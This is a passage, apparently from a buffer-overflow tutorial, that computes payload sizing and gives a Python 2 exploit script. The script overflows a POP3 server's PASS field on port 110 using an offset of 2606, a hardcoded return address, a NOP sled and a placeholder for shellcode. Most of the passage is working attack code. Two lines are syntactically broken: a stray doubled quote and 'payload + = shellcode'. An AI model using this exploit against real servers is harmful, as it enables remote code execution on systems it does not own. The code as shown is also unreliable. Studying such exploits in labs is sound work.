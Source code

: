 In our case:

2606 - 4 - 351 = 2251 bytes left for our payload data and our nopsled.

So we will use 16 times NOP sleds (\x90) and substract it from our final padding:

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

shellcode = ("GENERATED SHELLCODE")

payload = "A" * 2606
payload += ""\x8f\x35\x4a\x5f"
payload += "\x90" * 16
payload + = shellcode
payload += "C" * (3500 - 2606 - 4 - 16 - 351)

print "\nSending evil buffer..."
s.connect(('127.0.0.1',110))
s.recv(1024)
s.send('USER username' + '\r\n')
s.recv(1024)
s.send('PASS ' + payload + '\r\n')
print "\nDone!."
```


